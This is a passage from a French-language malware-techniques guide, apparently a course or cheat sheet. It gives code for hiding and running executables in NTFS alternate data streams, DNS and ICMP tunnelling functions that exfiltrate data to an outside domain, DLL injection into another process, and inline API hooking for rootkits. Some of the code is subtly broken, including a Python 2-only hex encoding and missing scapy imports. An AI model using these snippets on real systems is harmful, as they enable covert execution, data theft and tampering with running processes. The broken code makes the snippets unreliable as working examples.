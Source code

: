 **Alternate Data Streams (ADS)**
```powershell
# Création d'ADS
echo "malware code" > innocent.txt:hidden.exe

# Exécution depuis ADS
wmic process call create "C:\path\innocent.txt:hidden.exe"

# Détection ADS
dir /r C:\path\
```

#### Steganographie réseau

**Covert channels**
```python
# DNS tunneling
import dns.resolver

def dns_exfiltrate(data, domain):
    subdomain = data.encode('hex')
    query = f"{subdomain}.{domain}"
    dns.resolver.query(query, 'A')

# ICMP tunneling
def icmp_tunnel(data):
    packet = IP(dst="target.com")/ICMP()/data
    send(packet)
```

### Rootkits et bootkits

#### Rootkits utilisateur

**DLL Injection**
```c
// Injection de DLL
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, target_pid);
LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dll_path), MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(hProcess, pRemoteMemory, dll_path, strlen(dll_path), NULL);

HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, 
    (LPTHREAD_START_ROUTINE)LoadLibraryA, pRemoteMemory, 0, NULL);
```

**API Hooking**
```c
// Hook de fonction
BYTE original_bytes[5];
DWORD old_protect;

// Sauvegarder les bytes originaux
ReadProcessMemory(GetCurrentProcess(), target_function, original_bytes, 5, NULL);

// Préparer le hook
BYTE hook_bytes[5] = {0xE9}; // JMP instruction
DWORD relative_address = (DWORD)hook_function - (DWORD)target_function - 5;
memcpy(hook_bytes + 1, &relative_address, 4);

// Installer le hook
VirtualProtect(target_function, 5, PAGE_EXECUTE_READWRITE, &old_protect);
WriteProcessMemory(GetCurrentProcess(), target_function, hook_bytes, 5, NULL);
VirtualProtect(target_function, 5, old_protect, &old_protect);
```
